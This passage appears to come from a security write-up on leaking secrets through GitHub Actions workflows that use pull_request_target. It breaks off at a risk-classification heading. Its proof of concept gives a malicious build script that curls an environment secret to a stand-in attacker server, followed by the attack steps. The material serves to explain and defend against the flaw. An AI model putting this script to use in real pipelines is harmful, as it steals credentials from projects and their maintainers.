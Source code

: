                       # This script is from the attacker's PR
                      # If it's a Golang project, this might be `make build` or `go test./...`
                      # which could be compromised by the attacker.
                     ./run_build_or_test.sh
            ```
            
    2. **Attacker's Actions:**
        - The attacker forks the target repository.
        - In their forked repository, the attacker creates or modifies a script (e.g., `run_build_or_test.sh`, or a `Makefile` target if the workflow runs `make`). This script is designed to exfiltrate environment variables. For a Golang project, this malicious script could be part of a test suite or a build utility.
            
            ```Bash
            
            # Attacker's malicious run_build_or_test.sh in their PR
            #!/bin/bash
            echo "Malicious script running..."
            echo "Attempting to exfiltrate CRITICAL_SECRET: $CRITICAL_SECRET"
            curl -X POST -H "Content-Type: application/json" \
                 -d "{\"secret_found\": \"$CRITICAL_SECRET\", \"repo\": \"${{ github.repository }}\"}" \
                 https://attacker-controlled-server.com/log_secrets
            echo "Exfiltration attempt complete."
            ```
            
        - The attacker commits this malicious script to their fork and creates a Pull Request to the target repository.
    3. **Execution and Observation:**
        - When the PR is opened against the target repository, the `Vulnerable PR Target Workflow` is triggered.
        - Because it uses `pull_request_target`, the workflow runs in the context of the *target repository*, thus having access to `secrets.PRODUCTION_API_KEY`.
        - The `actions/checkout` step checks out the attacker's code (containing `run_build_or_test.sh`) from the PR.
        - The `Run build script from PR` step executes the attacker's malicious script.
        - The attacker's server at `https://attacker-controlled-server.com/log_secrets` receives the `CRITICAL_SECRET`.

These PoCs demonstrate that the CI/CD pipeline itself can become an attack vector. The public nature of many CI/CD logs, especially for open-source Golang projects hosted on platforms like GitHub, significantly lowers the barrier for attackers to discover and exploit these leaks once they occur. Attackers may not need to breach the CI system directly; they can simply monitor public activity for such misconfigurations or vulnerabilities.

## **Risk Classification**
